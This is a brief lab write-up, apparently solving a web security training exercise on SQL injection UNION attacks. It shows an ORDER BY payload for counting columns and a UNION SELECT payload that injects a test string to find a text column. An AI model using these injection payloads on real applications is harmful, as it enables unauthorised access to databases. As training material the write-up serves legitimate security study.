 # title : SQL injection UNION attack, finding a column containing text


## first payload 
```
' ORDER BY 3-- 
```



## Solution
1. Find number of columns using `ORDER BY`.
2. Inject test string into each column:

```sql
' UNION SELECT NULL, 'KfGLou', NULL-- -
